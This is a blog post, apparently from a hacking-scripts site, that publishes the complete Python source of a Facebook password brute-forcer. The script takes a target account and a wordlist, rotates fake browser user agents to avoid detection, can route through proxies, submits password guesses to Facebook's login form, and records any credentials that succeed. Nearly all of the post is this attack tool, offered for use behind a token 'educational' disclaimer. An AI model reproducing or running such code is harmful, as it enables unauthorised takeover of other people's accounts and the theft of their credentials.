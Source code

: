 ```yaml
---
id: 282
title: Facebook Bruceforcer Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=282
permalink: /facebook-bruceforcer-script/
categories:
  - Python
tags:
  - bruteforcer
  - facebook
  - Python
---
```

This Facebook Bruceforcer Script v1.0 was written in Python, by \*Cyb3rK!ng\*


### Facebok Bruteforcer Script Source Code

{% highlight python %}#!/usr/bin/python
# This is facebook bruteforcer tools
# This was written for educational purpose and pentest only. Use it at your own risk.
# Author will not be responsible for any damage !!
# Toolname  : facebookbruteforcer.py
# Programmer    : *Cyb3rK!ng*
# Version   : 1.0
# Date      : Tue Jul 27 13:24:44 WIT 2010
# Special Thanks to the weed I smoked that had inspired me!

import re
import os
import sys
import random
import warnings
import time
try:
    import mechanize
except ImportError:
    print "[*] Please install mechanize python module first"
    sys.exit(1)
except KeyboardInterrupt:
    print "\n[*] Exiting program...\n"
    sys.exit(1)
try:
    import cookielib
except ImportError:
    print "[*] Please install cookielib python module first"
    sys.exit(1)
except KeyboardInterrupt:
    print "\n[*] Exiting program...\n"
    sys.exit(1)

warnings.filterwarnings(action="ignore", message=".*gzip transfer encoding is experimental!", category=UserWarning)

# define variable
__programmer__  = "Cyb3rK!ng"
__version__     = "2.1"
verbose     = False
useproxy    = False
usepassproxy    = False
log     = 'fbbruteforcer.log'
file        = open(log, "a")
success     = 'http://www.facebook.com/?sk=messages&ref=mb'
fblogin     = 'https://login.facebook.com/login.php?login_attempt=1'
# some cheating ..
ouruseragent    = ['Mozilla/4.0 (compatible; MSIE 5.0; SunOS 5.10 sun4u; X11)',
        'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.2.2pre) Gecko/20100207 Ubuntu/9.04 (jaunty) Namoroka/3.6.2pre',
        'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Avant Browser;',
        'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT 5.0)',
            'Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.1)',
            'Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.9.0.6)',
            'Microsoft Internet Explorer/4.0b1 (Windows 95)',
            'Opera/8.00 (Windows NT 5.1; U; en)',
        'amaya/9.51 libwww/5.4.0',
        'Mozilla/4.0 (compatible; MSIE 5.0; AOL 4.0; Windows 95; c_athome)',
        'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)',
        'Mozilla/5.0 (compatible; Konqueror/3.5; Linux) KHTML/3.5.5 (like Gecko) (Kubuntu)',
        'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; ZoomSpider.net bot; .NET CLR 1.1.4322)',
        'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; QihooBot 1.0 qihoobot@qihoo.net)',
        'Mozilla/4.0 (compatible; MSIE 5.0; Windows ME) Opera 5.11 [en]'
        ]
facebook    = '''
  __               _                 _
 / _|             | |               | |
| |_ __ _  ___ ___| |__   ___   ___ | | __
|  _/ _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ /
| || (_| | (_|  __/ |_) | (_) | (_) |   <
|_| \__,_|\___\___|_.__/ \___/ \___/|_|\_\\
                    bruteforcer...

Programmer : %s
Version    : %s''' % (__programmer__, __version__)
option          = '''
Usage  : %s [options]
Option : -u, --username             |   User for bruteforcing
         -w, --wordlist             |   Wordlist used for bruteforcing
         -v, --verbose              |   Set %s will be verbose
         -p, --proxy           |   Set http proxy will be use
         -k, --usernameproxy        |   Set username at proxy will be use
         -i, --passproxy
    |   Set password at proxy will be use
         -l, --log          |   Specify output filename (default : fbbruteforcer.log)
         -h, --help                     |   Print this help

Example : %s -u brad@hackme.com -w wordlist.txt"

P.S : add "&" to run in the background
''' % (sys.argv[0], sys.argv[0], sys.argv[0])
hme         = '''
Usage : %s [option]
    -h or --help for get help
    ''' % sys.argv[0]

def helpme():
    print facebook
    print option
    file.write(facebook)
    file.write(option)
    sys.exit(1)

def helpmee():
    print facebook
    print hme
    file.write(facebook)
    file.write(hme)
    sys.exit(1)

for arg in sys.argv:
    try:
        if arg.lower() == '-u' or arg.lower() == '--user':
                    username = sys.argv[int(sys.argv[1:].index(arg))+2]
        elif arg.lower() == '-w' or arg.lower() == '--wordlist':
                    wordlist = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-l' or arg.lower() == '--log':
                    log = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-p' or arg.lower() == '--proxy':
                useproxy = True
                    proxy = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-k' or arg.lower() == '--userproxy':
                usepassproxy = True
                    usw = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-i' or arg.lower() == '--passproxy':
                usepassproxy = True
                    usp = sys.argv[int(sys.argv[1:].index(arg))+2]
        elif arg.lower() == '-v' or arg.lower() == '--verbose':
                    verbose = True
            elif arg.lower() == '-h' or arg.lower() == '--help':
                helpme()
        elif len(sys.argv) <= 1:
            helpmee()
    except IOError:
        helpme()
    except NameError:
        helpme()
    except IndexError:
        helpme()

def bruteforce(word):
    try:
        sys.stdout.write("\r[*] Trying %s...                    " % word)
        file.write("[*] Trying %s\n" % word)
        sys.stdout.flush()
        br.addheaders = [('User-agent', random.choice(ouruseragent))]
        opensite = br.open(fblogin)
        br.select_form(nr=0)
        br.form['email'] = username
        br.form['pass'] = word
        br.submit()
        response = br.response().read()
        if verbose:
            print response
        if success in response:
            print "\n\n[*] Logging in success..."
            print "[*] Username : %s" % (username)
            print "[*] Password : %s\n" % (word)
            file.write("\n[*] Logging in success...")
            file.write("\n[*] Username : %s" % (username))
            file.write("\n[*] Password : %s\n\n" % (word))
            sys.exit(1)
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        sys.exit(1)
    except mechanize._mechanize.FormNotFoundError:
        print "\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n"
        file.write("\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n")
        sys.exit(1)
    except mechanize._form.ControlNotFoundError:
        print "\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n"
        file.write("\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n")
        sys.exit(1)

def releaser():
    global word
    for word in words:
        bruteforce(word.replace("\n",""))

def main():
    global br
    global words
    try:
        br = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        br.set_cookiejar(cj)
        br.set_handle_equiv(True)
        br.set_handle_gzip(True)
        br.set_handle_redirect(True)
        br.set_handle_referer(True)
        br.set_handle_robots(False)
        br.set_debug_http(False)
        br.set_debug_redirects(False)
        br.set_debug_redirects(False)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        if useproxy:
            br.set_proxies({"http": proxy})
        if usepassproxy:
            br.add_proxy_password(usw, usp)
        if verbose:
            br.set_debug_http(True)
            br.set_debug_redirects(True)
            br.set_debug_redirects(True)
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        file.write("\n[*] Exiting program...\n")
        sys.exit(1)
    try:
        preventstrokes = open(wordlist, "r")
        words          = preventstrokes.readlines()
        count          = 0
        while count < len(words):
            words[count] = words[count].strip()
            count += 1
    except IOError:
        print "\n[*] Error: Check your wordlist path\n"
        file.write("\n[*] Error: Check your wordlist path\n")
        sys.exit(1)
    except NameError:
        helpme()
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        file.write("\n[*] Exiting program...\n")
        sys.exit(1)
    try:
        print facebook
        print "\n[*] Starting attack at %s" % time.strftime("%X")
        print "[*] Account for bruteforcing %s" % (username)
        print "[*] Loaded :",len(words),"words"
        print "[*] Bruteforcing, please wait..."
        file.write(facebook)
        file.write("\n[*] Starting attack at %s" % time.strftime("%X"))
        file.write("\n[*] Account for bruteforcing %s" % (username))
        file.write("\n[*] Loaded : %d words" % int(len(words)))
        file.write("\n[*] Bruteforcing, please wait...\n")
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        sys.exit(1)
    try:
        releaser()
        bruteforce(word)
    except NameError:
        helpme()

if __name__ == '__main__':
    main()
{% endhighlight %}
